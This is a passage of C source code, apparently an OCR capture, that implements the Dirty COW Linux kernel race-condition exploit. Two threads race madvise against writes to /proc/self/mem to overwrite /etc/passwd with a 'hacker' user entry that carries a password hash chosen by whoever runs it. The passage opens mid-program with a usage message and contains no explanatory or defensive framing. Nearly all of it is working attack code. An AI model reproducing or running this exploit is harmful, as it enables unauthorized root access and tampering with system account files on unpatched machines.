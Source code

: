 ```C
        puts("usage: ./dirty username password");
        puts("do not forget to make a backup for the /etc/passwd by yourself");
        return 0;
    }

    hacker.username = argv[1];
    hacker.hash = crypt(argv[2], argv[1]);

    fake_user_length = snprintf(NULL, 0, "%s:%s:%d:%d:%s:%s:%s\n", 
        hacker.username, 
        hacker.hash, 
        hacker.user_id, 
        hacker.group_id, 
        hacker.info, 
        hacker.home_dir, 
        hacker.shell);
    fake_user = (char * ) malloc(fake_user_length + 0x10);

    sprintf(fake_user, "%s:%s:%d:%d:%s:%s:%s\n", 
        hacker.username, 
        hacker.hash, 
        hacker.user_id, 
        hacker.group_id, 
        hacker.info, 
        hacker.home_dir, 
        hacker.shell);

    
    passwd_fd = open("/etc/passwd", O_RDONLY);
    printf("fd of /etc/passwd: %d\n", passwd_fd);

    fstat(passwd_fd, &passwd_st); // get /etc/passwd file length
    map = mmap(NULL, passwd_st.st_size, PROT_READ, MAP_PRIVATE, passwd_fd, 0);

    pthread_create(&madvise_thread, NULL, madviseThread, NULL);
    pthread_create(&write_thread, NULL, writeThread, NULL);

    pthread_join(madvise_thread, NULL);
    pthread_join(write_thread, NULL);

    return 0;
}

void * writeThread(void * argv)
{
    int mm_fd = open("/proc/self/mem", O_RDWR);
    printf("fd of mem: %d\n", mm_fd);
    for (int i = 0; i < 0x10000; i++)
    {
        lseek(mm_fd, (off_t) map, SEEK_SET);
        write(mm_fd, fake_user, fake_user_length);
    }

    return NULL;
}

void * madviseThread(void * argv)
{
    for (int i = 0; i < 0x10000; i++){
        madvise(map, 0x100, MADV_DONTNEED);
    }

    return NULL;
```